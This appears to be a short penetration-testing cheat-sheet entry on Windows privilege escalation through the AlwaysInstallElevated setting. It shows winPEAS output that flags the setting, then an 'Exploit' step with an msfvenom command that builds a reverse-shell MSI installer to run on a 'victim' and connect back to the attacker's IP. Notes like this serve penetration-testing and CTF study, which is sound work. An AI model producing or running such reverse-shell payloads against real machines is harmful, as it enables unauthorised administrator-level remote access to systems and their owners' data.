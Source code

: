 If winpeas shows this:
```
???????????? Checking AlwaysInstallElevated
?  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

This means that .msi files (Microsoft Software Installer) are automatically installed with Administrative privileges

#### Exploit
Create msfvenom rev shell and run on victim
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR tun0 IP> LPORT=<your_port> -f msi -o shell.msi
```